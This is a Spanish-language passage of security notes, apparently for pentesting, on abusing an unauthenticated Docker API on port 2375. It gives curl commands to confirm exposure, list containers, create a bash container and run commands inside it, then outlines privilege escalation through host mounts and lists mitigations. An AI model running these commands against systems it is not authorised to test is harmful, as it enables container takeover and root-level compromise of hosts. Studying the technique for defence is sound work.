 #### 2. **Verificación de la Exposición de la API**

- Puedes verificar si la API de Docker está expuesta utilizando herramientas como `curl` para realizar una solicitud a los puertos correspondientes:


`curl http://<docker-host-ip>:2375/version`

- Si obtienes una respuesta con información sobre la versión de Docker, significa que la API está expuesta.

#### 3. **Ejemplos de Comandos de Explotación**

- Si tienes acceso al puerto 2375, puedes ejecutar varios comandos para manipular el sistema Docker. Algunos ejemplos incluyen:
    
    - **Listar contenedores**:
    
    
    
    `curl http://<docker-host-ip>:2375/containers/json`
    
    - **Crear un nuevo contenedor**:
    
    
    
    `curl -X POST -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Cmd": ["bash"]}' http://<docker-host-ip>:2375/containers/create`
    
    - **Ejecutar un comando en un contenedor**:
    

    
    `curl -X POST -H "Content-Type: application/json" -d '{"AttachStdout": true, "AttachStderr": true, "Cmd": ["whoami"]}' http://<docker-host-ip>:2375/containers/<container_id>/exec`
    

#### 4. **Escalada de Privilegios**

- Una vez que un atacante tiene acceso a la API de Docker, puede ejecutar contenedores con privilegios elevados o crear contenedores que monten directorios sensibles del host, lo que le permite acceder a datos críticos o incluso escalar privilegios a nivel de root.

#### 5. **Mitigación de Vulnerabilidades**

- **Deshabilitar la API sin protección**: Asegúrate de que la API de Docker no esté expuesta sin autenticación en el puerto 2375. Usa el puerto 2376 con TLS para conexiones seguras.
- **Control de acceso**: Implementa controles de acceso a nivel de red (firewalls, grupos de seguridad) para restringir el acceso a la API de Docker a direcciones IP específicas.
- **Auditoría de configuración**: Realiza auditorías regulares de la configuración de Docker y la API para identificar y mitigar posibles vulnerabilidades.

![[Pasted image 20241030163823.png]]